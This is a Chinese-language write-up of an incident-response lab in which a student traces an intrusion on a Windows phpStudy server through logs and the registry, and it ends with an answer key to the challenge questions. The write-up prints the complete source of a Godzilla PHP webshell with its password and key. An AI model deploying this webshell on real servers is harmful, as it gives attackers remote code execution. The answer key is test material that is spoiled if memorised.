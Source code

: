 :::info

前景需要：小李在某单位驻场值守，深夜12点，甲方已经回家了，小李刚偷偷摸鱼后，发现安全设备有告警，于是立刻停掉了机器开始排查。

这是他的服务器系统，请你找出以下内容，并作为通关条件：

1.攻击者的IP地址（两个）？

2.攻击者的webshell文件名？

3.攻击者的webshell密码？

4.攻击者的伪QQ号？

5.攻击者的伪服务器IP地址？

6.攻击者的伪服务器端口？

7.攻击者是如何入侵的（选择题）？

8.攻击者的隐藏用户名？

::::

启动靶机，打开`phpstudy`

### 查杀webshell

首先将网站源码打包，用D盾查杀

![image-20240601180403229](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240601180403229.png)

`system.php`

```php
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$pass='hack6618';
$payloadName='payload';
$key='7813d1590d28a7dd';
if (isset($_POST[$pass])){
    $data=encode(base64_decode($_POST[$pass]),$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
		eval($payload);
        echo substr(md5($pass.$key),0,16);
        echo base64_encode(encode(@run($data),$key));
        echo substr(md5($pass.$key),16);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```

一个哥斯拉的🐎，密码是`hack6618`

### 查看apache的日志

搜索`system.php`

```
192.168.126.135 - - [29/Feb/2024:13:02:00 +0800] "GET /system.php HTTP/1.1" 200 -
192.168.126.135 - - [29/Feb/2024:13:08:49 +0800] "POST /system.php HTTP/1.1" 200 -
```

得到攻击者IP，`192.168.126.135`

### 查看windows日志

利用windows日志工具

![image-20240601181231571](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240601181231571.png)

得到用户名`hack887$`，登录ip`192.168.126.129`

删除用户失败

![image-20240601181527501](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240601181527501.png)

控制面板寻找账户并未发现

猜测该用户为克隆administrator隐藏用户，注册表寻找该用户

找到隐藏账户`hack887$`

![image-20240601181618810](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240601181618810.png)

删除该项以及3E8

在文档内发现Tencent Files文件夹，猜测使用过通讯工具

![image-20240601181747537](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240601181747537.png)

伪QQ号`777888999321`

在`FileRecv`文件夹内为接收的文件

![image-20240601181851712](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240601181851712.png)

发现伪造的ip和端口

256.256.66.88

65536

### 通关

:::note

1.攻击者的IP地址（两个）？ 192.168.126.135 192.168.126.129

2.攻击者的webshell文件名？system.php

3.攻击者的webshell密码？hack6618

4.攻击者的伪QQ号？777888999321

5.攻击者的伪服务器IP地址？256.256.66.88

6.攻击者的伪服务器端口？65536

7.攻击者是如何入侵的（选择题）？ftp攻击，先爆破登上ftp服务，利用ftp上传system.php,拿到webshell

8.攻击者的隐藏用户名？hack887$

:::



![image-20240601175442338](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240601175442338.png)